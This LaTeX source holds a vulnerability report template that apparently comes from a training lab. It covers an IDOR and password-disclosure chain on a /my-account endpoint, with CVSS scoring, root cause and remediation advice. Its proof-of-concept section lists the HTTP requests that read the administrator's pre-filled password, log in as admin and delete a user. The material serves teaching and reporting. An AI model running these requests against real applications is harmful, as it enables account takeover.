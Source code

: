 \documentclass[11pt,letterpaper]{article}
\begin{document}
\subsection{Report Template}

\par\noindent\begin{minipage}{\linewidth}
\captionsetup{hypcap=false}%
\end{minipage}\par\nopagebreak
\begin{verbatim}
# Vulnerability Report: IDOR + Password Disclosure Chain

## Executive Summary
The application's /my-account endpoint accepts a user-controlled 'id'
parameter without authorization checks, AND returns the user's current
password pre-filled in a masked input field. This allows any authenticated
user to extract the administrator's password and achieve full account
takeover.

## Severity Assessment
- CVSS v3.1 Base Score: 9.1 (Critical)
- Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- Primary CWE: CWE-639 (IDOR), CWE-256 (Plaintext Password)

## Technical Details

### Vulnerability Chain
1. IDOR on /my-account endpoint
2. Password disclosure in HTML response
3. Account takeover via extracted credentials
4. Administrative privilege abuse

### Proof of Concept

#### Step 1: Login as wiener (low-privilege)
POST /login
username=wiener&password=peter

#### Step 2: Access administrator's account (IDOR)
GET /my-account?id=administrator
Cookie: session=[wiener's session]

Response contains:
<input type="password" name="password" value="[ADMIN_PASSWORD]">

#### Step 3: Login as administrator
POST /login
username=administrator&password=[EXTRACTED_PASSWORD]

#### Step 4: Delete user
GET /admin/delete?username=carlos

## Impact Analysis
- Complete account takeover of any user including administrator
- Full administrative access to application
- Ability to delete/modify any user
- Potential data breach of all user credentials

## Root Cause Analysis
1. Missing object-level authorization on account endpoint
2. Improper credential handling - passwords stored in retrievable form
3. Password pre-filled in client-side HTML

## Remediation Recommendations
1. Remove 'id' parameter - derive user identity from session
2. NEVER store passwords in retrievable form (use bcrypt/Argon2)
3. NEVER pre-fill password fields with existing values
4. Implement proper password reset flow instead of password display
5. Add object-level authorization checks on all user-specific endpoints

## References
- CWE-639: Authorization Bypass Through User-Controlled Key
- CWE-256: Plaintext Storage of a Password
- OWASP: Broken Access Control
\end{verbatim}
\end{document}
